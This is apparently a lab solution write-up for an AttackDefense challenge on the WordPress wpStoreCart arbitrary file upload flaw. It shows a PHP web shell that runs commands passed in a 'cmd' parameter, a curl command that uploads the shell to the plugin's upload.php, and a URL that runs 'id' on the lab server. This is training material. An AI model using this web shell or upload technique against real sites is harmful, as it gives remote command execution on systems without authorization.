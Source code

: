 ﻿![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.001.png)

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.002.png)
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress wpStoreCart </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=471>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : File Upload </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.004.jpeg)

**Step 2:** Search on google “WordPress wpStoreCart file upload” and look for publically available exploits.**  

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.005.jpeg)

The exploit db link contains a php script which can be used to exploit the vulnerability.  ![ref1]**Exploit DB Link: <https://www.exploit-db.com/exploits/19023>** 

Analysis of the PHP script reveals that the file is uploaded to the vulnerable web page “/wp-content/plugins/wpstorecart/php/upload.php”. ![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.006.jpeg)

**Step 3:** Create a PHP web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

**Command:** cat shell.php ![ref1]

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.007.png)

**Step 4:** Upload the web shell using curl command 

**Command:** curl -F "Filedata=@./shell.php" http://ekd8eic4ygc4gflttkrovrbt4.asia.attackdefenselabs.com/wp-content/plugins/wpstorecart/php /upload.php 

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.008.png)

The file will be uploaded to the directory “/wp-content/uploads/wpstorecart/”. **Step 5:** Access the uploaded PHP script. 

**URL:** http://ekd8eic4ygc4gflttkrovrbt4.asia.attackdefenselabs.com/wp-content/uploads/wpstorecart/sh ell.php 

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.009.png)

No output is returned since the cmd parameter was not passed. **Step 6:** Execute system commands through “cmd” GET parameter. **Command:** id 

**URL: ![ref1]**http://ekd8eic4ygc4gflttkrovrbt4.asia.attackdefenselabs.com/wp-content/uploads/wpstorecart/sh ell.php?cmd=id 

![](Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.010.png)

The “id” command was executed on the web server and the output was dumped on the web page. 

**References:**  

1. wpStoreCart (<https://github.com/wp-plugins/wpstorecart>)  ![ref1]
1. WordPress Plugin wpStoreCart 2.5.27-2.5.29 - Arbitrary File Upload (<https://www.exploit-db.com/exploits/19023>)  

[ref1]: Aspose.Words.f9726ae7-acfc-4921-8dcf-d76be75cbb36.003.png
